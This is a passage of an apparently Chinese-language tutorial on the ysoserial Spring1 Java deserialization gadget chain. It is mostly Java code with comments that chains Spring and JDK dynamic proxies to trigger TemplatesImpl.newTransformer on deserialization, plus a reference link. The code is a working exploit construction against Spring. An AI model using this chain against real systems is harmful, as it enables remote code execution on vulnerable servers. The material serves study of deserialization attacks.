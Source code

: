 ```java
        // 此时返回值被我们使用动态代理改为了 TemplatesImpl
        // 接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> aopConstructor = clazz.getDeclaredConstructors()[0];
        aopConstructor.setAccessible(true);
        // 使用 AdvisedSupport 实例化 JdkDynamicAopProxy
        InvocationHandler aopProxy = (InvocationHandler) aopConstructor.newInstance(as);

        // JdkDynamicAopProxy 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 JdkDynamicAopProxy 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, aopProxy);


        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?> clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field  field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        SerializeUtil.writeObjectToFile(objects, fileName);
        SerializeUtil.readFileObject(fileName);
    }


```

# 参考



https://su18.org/post/ysoserial-su18-3/#spring1







